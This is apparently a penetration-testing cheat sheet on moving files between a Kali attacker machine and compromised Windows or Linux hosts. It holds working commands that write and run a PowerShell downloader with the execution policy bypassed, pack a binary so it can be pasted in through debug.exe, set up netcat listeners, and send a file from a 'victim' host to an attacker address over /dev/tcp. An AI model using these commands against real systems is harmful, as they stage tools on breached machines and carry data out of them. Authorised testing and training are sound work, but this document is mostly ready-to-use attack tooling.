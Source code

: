 ### Powershell via HTTP
Windows 7, 2008 and above

Slow speed of 20kb/sec, but most readily available on most modern Windows OS

On Kali:
```sh
service apache2 start # /var/www/html # DIRECTORY HOSTING FILES
# or
python -m SimpleHTTPServer # current working dir will be DIRECTORY HOSTING FILES
```

On Windows:
```cmd
echo $storageDir = $pwd >wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[kali ip]/[file]" >>wget.ps1
echo $file = "[file]" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

```

### Debug.exe
Older 32-bit Windows

Limited to 64kb, slow speed of 3kb/sec, limited to the connection speed of the shell

On Kali:
```
upx -9 [.exe] # pack and compress a binary you wanna transfer
ls -lah [.exe] # check whether it is less than 64kb
exe2hex [.exe] # alternatively, `wine /usr/share/windows-binaries/exe2bat.exe [.exe] [.bat]`
cat [.bat] | xclip -selection c # if remotely accessing kali, use `ssh -X`, a bit finicky though
```

On Windows:
```
# paste
```

### `nc.exe`
Requires `nc.exe` to be already transferred. Allows for two-way transfers.
```cmd
C:\nc.exe -lvp 4444 > [file] # on Windows
nc [windows ip] 4444 < [file] # on Kali
```
Vice versa.

### Linux Dev TCP
```
cat file.txt > /dev/tcp/192.168.1.23/4444 # on victim linux
nc -lvp 4444 > file.txt # on Kali
```
